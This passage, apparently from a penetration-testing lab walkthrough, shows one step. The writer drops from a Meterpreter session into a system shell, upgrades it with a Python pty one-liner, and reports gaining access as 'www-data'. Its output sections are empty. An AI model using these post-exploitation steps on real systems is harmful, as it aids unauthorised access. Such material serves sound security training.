

7. Get a Shell
On your Kali Linux Machine you're in the materpreter session, so there type the following command to get a Shell.
meterpreter > shell
Output:

Import proper shell with python.
python3 -c
'import pty;pty.spawn("/bin/bash")'
Output:
We've got access as user “www-data”
Index